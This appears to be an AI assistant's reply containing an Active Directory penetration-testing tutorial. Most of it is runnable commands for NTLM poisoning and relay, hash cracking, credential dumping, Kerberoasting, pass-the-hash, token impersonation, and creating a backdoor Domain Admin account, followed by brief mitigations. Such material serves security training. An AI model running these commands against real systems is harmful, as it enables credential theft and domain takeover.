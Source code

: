 Here's your revised tutorial with placeholder IP addresses (like `ip_host`, `ip_client`, `ip_victim`) and additional descriptions for better understanding:

---

# **Windows Server 2025 Active Directory Penetration Testing Guide**

This tutorial covers common attack vectors against **Active Directory (AD)** in a lab environment. Replace the placeholder IPs (`ip_host`, `ip_client`, `ip_victim`, etc.) with your actual target addresses.

---

## **Phase 1: Initial Enumeration & Attacks**
### **1. LLMNR/NBT-NS Poisoning (Capturing NTLM Hashes)**
**Objective**: Exploit weak name resolution protocols to capture NTLMv2 hashes.  
**Tools**: `Responder`  

```bash
sudo responder -I eth0 -dwPv
```
- **Expected Output**:  
  - Captured hash format:  
    ```
    USERNAME::DOMAIN:HASH_PART:NT_HASH...
    ```
- **Cracking the Hash with Hashcat**:
  ```bash
  hashcat -m 5600 captured_hashes.txt /usr/share/wordlists/rockyou.txt --force
  ```

---

### **2. SMB Relay Attack (NTLM Relay)**
**Objective**: Relay captured hashes to gain unauthorized access.  

#### **Step 1: Identify Vulnerable Hosts**
```bash
sudo nmap --script=smb2-security-mode.nse -p445 ip_client1,ip_client2 -Pn
```
- **Look for**: `Message signing: disabled`  

#### **Step 2: Prepare Targets File**
```bash
echo "ip_client1" > targets.txt  
echo "ip_client2" >> targets.txt  
```

#### **Step 3: Launch NTLM Relay**
```bash
impacket-ntlmrelayx -tf targets.txt -smb2support -i
```
- **Interactive Shell Access**:
  ```bash
  nc 127.0.0.1 11000
  ```
  - Use commands like `shares`, `use C$`, and `ls` to navigate.

---

### **3. IPv6 DNS Takeover (mitm6 + NTLM Relay)**
**Objective**: Exploit IPv6 DNS to intercept credentials.  

1. **Run mitm6** (DNS spoofing):
   ```bash
   mitm6 -d domain.local -i eth0
   ```
2. **Relay to LDAPS**:
   ```bash
   impacket-ntlmrelayx -6 -t ldaps://ip_dc -wh fakewpad.domain.local -l lootme
   ```

---

## **Phase 2: Post-Exploitation & Privilege Escalation**
### **1. Dumping AD Credentials (Secretsdump)**
```bash
impacket-secretsdump domain/user:password@ip_dc
```
- **Extracts**:  
  - NTLM hashes  
  - Kerberos tickets  
  - Cached credentials  

---

### **2. Kerberoasting (Cracking Service Account Hashes)**
```bash
impacket-GetUserSPNs domain.local/user:password -dc-ip ip_dc -request -outputfile kerberoast_hashes.txt
```
- **Crack with Hashcat**:
  ```bash
  hashcat -m 13100 kerberoast_hashes.txt /usr/share/wordlists/rockyou.txt
  ```

---

### **3. Pass-the-Hash (Lateral Movement)**
```bash
crackmapexec smb ip_client1 -u administrator -H NTLM_HASH --local-auth
```
- **Alternative (Meterpreter)**:
  ```bash
  msf6 > use exploit/windows/smb/psexec
  msf6 > set SMBUser Administrator
  msf6 > set SMBPass NTLM_HASH
  msf6 > set RHOSTS ip_client1
  msf6 > run
  ```

---

### **4. Token Impersonation (Becoming Domain Admin)**
1. **List Available Tokens**:
   ```bash
   meterpreter > load incognito  
   meterpreter > list_tokens -u  
   ```
2. **Impersonate Administrator**:
   ```bash
   meterpreter > impersonate_token DOMAIN\\Administrator
   ```
3. **Verify Access**:
   ```bash
   meterpreter > shell
   whoami
   ```

---

### **5. Persistence (Creating Backdoor User)**
```bash
net user /add backdooruser P@ssw0rd123! /domain  
net group "Domain Admins" backdooruser /ADD /DOMAIN  
```

---

## **Mitigation & Defense**
✅ **Enable SMB Signing** (Prevents relay attacks)  
✅ **Disable LLMNR/NBT-NS** (Prevents poisoning)  
✅ **Enforce Strong Password Policies** (Prevents cracking)  
✅ **Monitor LDAP/Kerberos Logs** (Detects relay & brute-force)  

---

## **Conclusion**
This guide demonstrates common AD attack techniques. Always perform penetration testing **ethically** and with proper authorization.  